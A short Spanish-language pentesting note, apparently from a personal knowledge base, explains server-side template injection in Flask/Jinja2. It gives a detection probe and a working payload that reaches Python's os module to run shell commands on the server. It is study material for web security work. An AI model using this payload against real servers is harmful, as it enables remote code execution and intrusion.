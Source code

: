```yaml
---
title: ssti
author: naibu3
type: web
---
```


#web 

# ssti

*Server Side Template Injection* ó *ssti* es una vulnerabilidad de aplicaciones web que emplean plantillas para mostrar contenido dinámico, como podría ser *jinja2* de [[flask]].

## flask-python3

Las aplicaciones con *flask/jinja2*, pueden ser vulnerables a *ssti*, para comprobarlo podemos probar con un payload como `{{2*3}}`, si la página renderiza un `6`, sabremos que dicho *payload* se ejecuta como código [[python]], permitiéndonos *ejecución remota de comandos* ([[RCE]]).

A continuación algunos payloads (mirate también [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)):

```python3
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}

```
> Este payload trata de acceder al módulo `warning` para poder importar la librería `os` y ejecutar comandos del sistema (en este caso `ls`)